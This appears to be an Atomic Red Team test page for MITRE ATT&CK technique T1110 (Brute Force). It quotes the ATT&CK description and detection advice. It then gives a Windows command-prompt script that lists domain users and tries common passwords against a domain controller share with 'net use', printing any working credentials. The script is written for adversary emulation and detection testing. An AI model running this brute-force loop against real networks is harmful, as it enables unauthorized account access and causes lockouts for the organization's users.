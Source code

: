 #  T1110 - Brute Force
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)
<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

Credential Dumping to obtain password hashes may only get an adversary so far when Pass the Hash is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

A related technique called password spraying uses one password, or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Detection: It is difficult to detect when hashes are cracked, since this is generally done outside the scope of the target network. 

Monitor authentication logs for system and application login failures of Valid Accounts. If authentication failures are high, then there may be a brute force attempt to gain access to a system using legitimate credentials.

Also monitor for many failed authentication attempts across various accounts that may result from password spraying attempts.

Platforms: Linux, macOS, Windows

Data Sources: Authentication logs

Permissions Required: User

Contributors: John Strand</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)


<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
    | input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
    | remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
    | domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!
```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
<br/>
